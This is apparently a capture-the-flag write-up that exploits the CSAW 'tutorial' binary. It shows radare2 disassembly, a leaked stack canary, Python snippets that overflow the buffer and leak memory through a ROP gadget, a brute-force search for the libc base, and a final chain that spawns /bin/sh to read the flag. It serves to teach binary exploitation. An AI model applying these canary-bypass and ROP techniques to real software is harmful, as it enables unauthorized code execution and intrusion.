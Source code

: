 # problem
Given :
 * the binary - `tutorial`
 * a copy of their libc - `libc-2.19.so`
 * an endpoint - `nc pwn.chal.csaw.io 8002`

The program output looked something like :
```
-Tutorial-
1.Manual
2.Practice
3.Quit
>1
Reference:0x7ffca446169c
-Tutorial-
1.Manual
2.Practice
3.Quit
>2
Time to test your exploit...
>AA
AA
XXXXXX-Tutorial-
1.Manual
2.Practice
3.Quit
>3
You still did not solve my challenge.
```

# solution
## investigation
To decompile the executable I used radare2 and quickly found the function where a buffer overrun was achievable.
```
$ r2 -A tutorial
[0x00400c90]> pdf @ sym.func2                                                                                                                [12/304]
/ (fcn) sym.func2 176
|           ; var int local_144h @ rbp-0x144
|           ; var int local_140h @ rbp-0x140
|           ; var int local_8h @ rbp-0x8
|           ; CALL XREF from 0x0040104e (sym.menu)
|           0x00400ef2      55             push rbp
|           0x00400ef3      4889e5         mov rbp, rsp
|           0x00400ef6      4881ec500100.  sub rsp, 0x150
|           0x00400efd      89bdbcfeffff   mov dword [rbp - local_144h], edi
|           0x00400f03      64488b042528.  mov rax, qword fs:[0x28]    ; [0x28:8]=0x2240 ; '('
|           0x00400f0c      488945f8       mov qword [rbp - local_8h], rax
|           0x00400f10      31c0           xor eax, eax
|           0x00400f12      488d85c0feff.  lea rax, [rbp - local_140h]
|           0x00400f19      be2c010000     mov esi, 0x12c
|           0x00400f1e      4889c7         mov rdi, rax
|           0x00400f21      e8dafcffff     call sym.imp.bzero
|           0x00400f26      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f2c      ba1d000000     mov edx, 0x1d
|           0x00400f31      be52134000     mov esi, str.Time_to_test_your_exploit..._n ; "Time to test your exploit...." @ 0x401352
|           0x00400f36      89c7           mov edi, eax
|           0x00400f38      e8a3fbffff     call sym.imp.write
|           0x00400f3d      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f43      ba01000000     mov edx, 1
|           0x00400f48      be70134000     mov esi, 0x401370
|           0x00400f4d      89c7           mov edi, eax
|           0x00400f4f      e88cfbffff     call sym.imp.write
|           0x00400f54      488d8dc0feff.  lea rcx, [rbp - local_140h]
|           0x00400f5b      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f61      bacc010000     mov edx, 0x1cc
|           0x00400f66      4889ce         mov rsi, rcx
|           0x00400f69      89c7           mov edi, eax
|           0x00400f6b      e8f0fbffff     call sym.imp.read
|           0x00400f70      488d8dc0feff.  lea rcx, [rbp - local_140h]
|           0x00400f77      8b85bcfeffff   mov eax, dword [rbp - local_144h]
|           0x00400f7d      ba44010000     mov edx, 0x144
|           0x00400f82      4889ce         mov rsi, rcx
|           0x00400f85      89c7           mov edi, eax
|           0x00400f87      e854fbffff     call sym.imp.write
|           0x00400f8c      488b45f8       mov rax, qword [rbp - local_8h]
|           0x00400f90      644833042528.  xor rax, qword fs:[0x28]
|       ,=< 0x00400f99      7405           je 0x400fa0
|       |   0x00400f9b      e860fbffff     call sym.imp.__stack_chk_fail
|       |   ; JMP XREF from 0x00400f99 (sym.func2)
|       `-> 0x00400fa0      c9             leave
\           0x00400fa1      c3             ret
```
Indeed 0x1cc bytes are read `0x00400f61 mov edx, 0x1cc`, while the stack frame is only 0x150 bytes large `0x00400ef6 sub rsp, 0x150`
However, during the function prelude, a canary value is placed at the start of the stack frame.
```
0x00400f03 mov rax, qword fs:[0x28]
0x00400f0c mov qword [rbp - local_8h], rax
```
It is then checked again when the function exits. The program then aborts if its value is unexpected.
```
0x00400f8c mov rax, qword [rbp - local_8h]
0x00400f90 xor rax, qword fs:[0x28]
0x00400f99 je 0x400fa0
0x00400f9b call sym.imp.__stack_chk_fail
```
The second limitation is NX. The stack is not executale and ROP chains will have to be used.

Solving this will end up being a three steps process : 
 * find a way to bypass the canary
 * build a rop chain to leak memory (libc base)
 * build a final rop chain to pop a shell

## bypassing the canary
It turns outs that the Practice step of the program writes a tiny bit more than it should (the XXXXXX bytes in my example) and thus conviniently leaks the canary as well as the 4 lowest bytes of the previous frame pointer.

Just what we need :)

Indeed our stack looks like this :
```
<------   [4 bytes file descriptor][0x138 bytes reading space][8 bytes canary][rbp (the previous frame pointer)][return address]
top of                                                                                                                           bottom of
stack                                                                                                                                stack
```
And since write is asked to print 0x144 bytes (`0x00400f7d mov edx, 0x144`), it also prints 0x144 - 0x138 = 12 extra bytes.
```python
r = remote("pwn.chal.csaw.io",8002)
# obtain the canary
print(r.recvuntil(">"))
r.send("2\n")
print(r.recvuntil(">"))
canary = r.recvuntil("-")[0x138:-1]
# overrun the buffer without being detected
r.send("A"*0x138 + canary)
```
Great, sending this does not crash the program which means we can write over ret and control the executable.

## leaking arbitrary memory chunks
Looking at the state of our registers when we reach the ret call we see that we are still configured to perform a write call on the socket.
We only need to change rsi to a new address and call write again to get 0x144 bytes of juicy data.
Uploading the binary to [ropshell.com](http://ropshell.com/), I was able to find a pop rsi; pop r15; ret gadget at 0x4012e1.

```python
def leak(ptr, size):
  r = remote("pwn.chal.csaw.io",8002)
  # obtain the canary
  print(r.recvuntil(">"))
  r.send("2\n")
  print(r.recvuntil(">"))
  r.send("w\n")
  canary = r.recvuntil("-")[0x138:-1]
  canary = canary[:-4]

  print(r.recvuntil(">"))
  r.send("2\n")
  print(r.recvuntil(">"))
  r.send("A"*0x138 + canary + "A"*8 + '\xe1\x12\x40\x00\x00\x00\x00\x00' + struct.pack("Q",ptr) + "A"*8 + '\xa0\x0e\x40\x00\x00\x00\x00\x00')
  r.recv(0x144)
  mem = r.recv(0x144)[:size]
  r.close()
  return mem
```
Once it hits the ret call, the program will pop the address at which we want to leak memory into rsi, pop garbage into r15, and return to the write call at 0x400ea0.

## final exploit
Reversing the code to understand what the reference adresse was it seemed to be linked to the puts function. However I failed to get a valid base doing `libc_base = Reference - libc_puts` and reverted to an other strategy.

Our friend from RingZer0 [uaf.io](http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html) tells us the libc base will be at a multiple of the page size 0x1000 and can be found through brute force.
```python
def findLibcBase(ptr):
   ptr &= 0xfffffffffffff000
   while leak(ptr, 4) != "\x7fELF":
      ptr -= 0x1000
   return ptr
```
Letting this run for a while gives us `libc = 0x7f6dd350b000`.

We now have so many ROP possiblities!

gadgets :

poprdi, poprsi, poprdx, poprax, syscall

functions :

close and dup

strings :

/bin/sh

Hooking the program's standard io to the file descriptor of the socket. Using our leaking function we find its value is 4.
execve /bin/sh

```
./tuto.py
$ ls
flag
tutorial
tutorial.c
$ cat flag
FLAG{3ASY_R0P_R0P_P0P_P0P_YUM_YUM_CHUM_CHUM}
```
